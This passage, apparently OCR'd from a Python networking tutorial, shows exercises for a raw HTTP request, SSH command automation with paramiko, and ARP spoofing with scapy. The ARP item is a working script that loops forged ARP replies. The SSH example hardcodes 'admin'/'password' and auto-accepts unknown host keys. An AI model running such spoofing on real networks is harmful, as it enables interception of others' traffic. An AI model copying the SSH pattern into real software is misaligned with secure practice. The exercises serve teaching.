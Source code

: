 **Expected Output:** HTTP response from the server.

```python
import socket

def http_request(host):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, 80))
        s.sendall(b"GET / HTTP/1.1\r\nHost: " + host.encode() + b"\r\n\r\n")
        response = s.recv(4096)
        print(response.decode())

http_request("example.com")
```

---

## **7. Automate SSH Commands**

**Objective:** Automate SSH command execution.

**Purpose:** Manage devices programmatically.

**Expected Output:** Command output from the device.

```python
import paramiko

def execute_ssh_command(ip, username, password, command):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(ip, username=username, password=password)
    stdin, stdout, stderr = ssh.exec_command(command)
    print(stdout.read().decode())
    ssh.close()

execute_ssh_command("192.168.1.1", "admin", "password", "show version")
```

---

## **8. Perform ARP Spoofing**

**Objective:** Simulate ARP spoofing.

**Purpose:** Understand ARP manipulation and its effects.

**Expected Output:** ARP spoof packets sent.

```python
from scapy.all import ARP, send

def arp_spoof(target_ip, gateway_ip):
    packet = ARP(op=2, pdst=target_ip, psrc=gateway_ip, hwdst="ff:ff:ff:ff:ff:ff")
    send(packet, loop=1, verbose=1)

arp_spoof("192.168.1.100", "192.168.1.1")
```

---